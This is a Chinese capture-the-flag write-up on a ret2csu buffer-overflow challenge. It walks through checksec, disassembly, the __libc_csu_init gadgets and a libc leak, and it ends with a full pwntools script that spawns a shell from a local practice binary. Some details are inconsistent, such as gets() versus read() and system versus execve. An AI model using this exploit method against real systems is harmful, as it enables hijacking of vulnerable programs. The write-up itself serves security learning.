 # Level 2 Writeup

## ret2csu复现与分析

### 技术点

- checksec检查可执行文件与内核安全属性
- 使用反汇编工具（IDA pro）查找缓冲区溢出入口和可利用的源码片段
- 使用二进制调试工具（gdb）查看寄存器与内存内容
- 利用`__libc_csu_init`函数中的gadgets来实现64位程序的ROP攻击
- 利用`write`函数泄露`libc.so`在内存中的地址，从而找到`system`函数的地址
- 泄露共享库基地址
- 通过 got 表泄露共享库中函数的偏移地址
- 利用gadgets构造栈帧，通过ROP调用系统调用
- 计算需要覆写的返回地址的偏移
- payload构造

### 分析

首先通过checksec检查可执行文件的保护机制

![image-20230425110337603](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304251103650.png)

能够得知以下信息：

- 可执行文件为一个64位可执行文件，使用小端序编码。
- 开启了“部分Relocation Read-Only”技术。
- 没有开启“栈金丝雀（stack canary）”技术。
- 开启了“No-eXecute”保护技术。
- 没有开启“独立位置可执行（Position Independent Executable）”技术。

接下来通过IDA pro查看反汇编反编译源码：

![image-20230425110558553](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304251105579.png)

![image-20230425114418532](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304251144551.png)

可以看`vulnerable_function()`函数中明显的缓冲区溢出漏洞入口`read()`，因此查找是否有可以利用的工具函数与字符串。但是没有在程序中查找到`/bin/sh`字符串或`system()`函数等易于利用的工具。因此借鉴level1中题目思路利用libc中比较齐全的代码。

- 利用`write()`函数输出并计算libc.so在内存中的地址，从而找到`system()`的地址
- 然后再传递“/bin/sh”到.bss段
- 最后调用`system(“/bin/sh”)`

但在利用中遇到如下问题，本题为64位程序，无法通过栈向函数的前6个参数传值，只能通过寄存器传值。

![image-20230425111740513](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304251117526.png)

然而使用ROPgadget并没有找到类似于`pop rdi, ret`,`pop rsi, ret`这样的gadgets。根据题目提示，可以使用所有调用lib.so的程序都会用来对libc进行初始化操作的`__libc_csu_init()`函数中的gadgets。

![image-20230425112106972](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304251121009.png)

使用`objdump -d retcsu`观察`__libc_csu_init()`函数。可以看到

- 利用`0x400606`处的代码可以控制`rbx`、`rbp`、`r12`、`r13`、`r14`和`r15`的值
- 利用`0x4005f0`处的代码可以将`r15`的值赋值给`rdx`、 `r14`的值赋值给`rsi`、`r13`的值赋值给`edi`。`rdx`、`rsi`、`edi`恰好是64位程序函数调用传参的前三个寄存器，因此可以借此构造参数
- 上述位置随后调用了`call qword ptr [r12+rbx*8]`。若将`rbx`的值赋值为0，再通过精心构造栈上的数据，就可以控制`pc`寄存器调用任意函数。
- 执行完`call qword ptr [r12+rbx*8]`之后，程序会对`rbx+=1`，然后对比`rbp`和`rbx`的值，如果相等就会继续向下执行并ret到我们想要继续执行的地址。所以为了让`rbp`和`rbx`的值相等，可以将`rbp`的值设置为1，从而实现gadgets的连续利用。

因此构思获得shell的攻击流程如下：

1. 通过`gets()`构造缓冲区溢出攻击，劫持控制流
2. 利用`libc_csu_gadgets`获取`write`函数地址，通过`write`函数泄露出来，并使得程序重新执行`main`函数
3. 使用`libcsearcher`，基于`write`函数地址，获取对应libc版本以及`system`函数地址
4. 再次在`main`函数通过`gets()`构造缓冲区溢出攻击，劫持控制流
5. 利用栈溢出执行`libc_csu_gadgets`，调用`read`函数向.bss段写入`system`地址以及 '/bin/sh’ 地址，并使得程序重新执行`main`函数
6. 再次在`main`函数通过`gets()`构造缓冲区溢出攻击，劫持控制流
7. 利用栈溢出通过`libc_csu_gadgets`执行`system('/bin/sh')`弹出一个shell供攻击者使用

### 攻击复现

接下来实现攻击，同level 1中题目，要先确定`vulnerable_function()`函数返回地址。

![image-20230425115834949](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304251158983.png)

在`call _read`的地址`0x000000000040055d`处下断点，可以看到：栈指针寄存器rsp此时的地址为`0x00007fffffffdd90`；基址指针寄存器rbp的地址为`0x00007fffffffdd10`。通过计算可得，s 相对于 rbp 的偏移为 `0x00007fffffffdd90-0x00007fffffffdd10=0x80`。此时内存结构如下图所示：

![image-20230425153726319](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304251537381.png)

根据上述思路编写第一轮运行的payload，构造内存结果如下：

![image-20230425160142856](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304251601918.png)

> 其中write函数的三个参数意义如下
>
> - 文件描述符，一般置1
> - 指定的缓冲区，即指针，指向一段内存单元；
> - 要写入文件指定的字节数；

接下来因为程序重新从main开始运行，继续构造第二轮运行的payload，需构造内存结果如下：

![image-20230425160147984](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304251601019.png)

> 其中write函数的三个参数意义如下
> - 文件描述符，一般置1
> - 指定的缓冲区，即指针，指向一段内存单元；
> - 要写入文件指定的字节数；

接下来程序依然重新从main开始运行，继续构造第三轮运行的payload，需构造内存结果如下：

![image-20230425160813064](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304251608094.png)

最终的payload如下：

```python
from pwn import *
from LibcSearcher import LibcSearcher

ret2csu = ELF('./ret2csu')
sh = process('./ret2csu')

write_got = ret2csu.got['write']
read_got = ret2csu.got['read']
main_addr = ret2csu.symbols['main']
bss_base = ret2csu.bss()
csu_front_addr = 0x400600
csu_end_addr = 0x40061A

# First round - leak write address
sh.recvuntil(b'Hello, World\n')
sh.send(b'a' * 136 + p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(write_got) + p64(1) + p64(write_got) + p64(8) + p64(0x4005F0) + b'a' * 56 + p64(main_addr))
sleep(1)

# calculate libc_base and get the address of execve
write_addr = u64(sh.recv(8))
libc = LibcSearcher('write', write_addr)
libc_base = write_addr - libc.dump('write')
execve_addr = libc_base + libc.dump('execve')

# Second round - write /bin/sh to bss and call execve
sh.recvuntil('Hello, World\n')
sh.send(b'a' * 136 + p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(read_got) + p64(0) + p64(bss_base) + p64(16) + p64(0x4005F0) + b'a' * 56 + p64(main_addr))
sleep(1)

# Third round - call execve
sh.send(p64(execve_addr) + b'/bin/sh\x00')
sh.recvuntil('Hello, World\n')
sh.send(b'a' * 136 + p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(bss_base) + p64(bss_base+8) + p64(0) + p64(0) + p64(0x4005F0) + b'a' * 56 + p64(main_addr))

sh.interactive()
```

运行payload脚本，可以成功得到shell。

![image-20230425163803564](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304251638604.png)